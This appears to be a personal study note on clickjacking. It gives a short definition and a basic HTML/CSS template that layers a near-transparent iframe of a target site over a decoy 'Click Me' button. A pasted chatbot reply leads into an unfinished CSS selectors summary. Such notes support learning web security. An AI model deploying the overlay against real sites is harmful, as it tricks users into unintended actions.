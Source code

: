 ```yaml
---
tags:
  - Clickjacking
  - clickjack
  - click
  - 2FA
---
```


![[Click Jacking-20240122114904079.webp]]
# What is click jacking ? 
- tricking the user  via  stealing his click in a hidden button over the correct button he is aiming to click . 
- so when use click  the correct button he by unknowing click into a hidden button that do another malicious activity . 
- the process occurs within hidden iframe 
## How to construct a basic clickjacking attack
- Click-jacking attacks use CSS to create and manipulate layers.
- The goal of clickjacking is to make the user interact with the invisible iframe, thinking they are interacting with the decoy content. The use of positioning, dimensions, opacity, and stacking order manipulation creates the illusion for the user.
```html
<style>
iframe{
	position: relative;
	width: 700px; /* Replace with the suggested width value */
	height: 1000px; /* Replace with the suggested height value */
	opacity: 0.1; /* Replace with the suggested opacity value */
	z-index: 2;
}
div{
	position: absolute;
	top: 500;
	left: 300;
	z-index:1;
}
</style>
<div>Click Me</div>
<iframe src="theTargetSite"></iframe>
```
Certainly! Here's the consolidated summary of the concepts, including CSS selectors, positioning, and the clickjacking script:

```markdown
# CSS Selectors and Positioning Summary

## CSS Selectors:

### 1. Element Selector (Type Selector):
```css
p {
  /* Styles applied to all <p> elements */
}
```
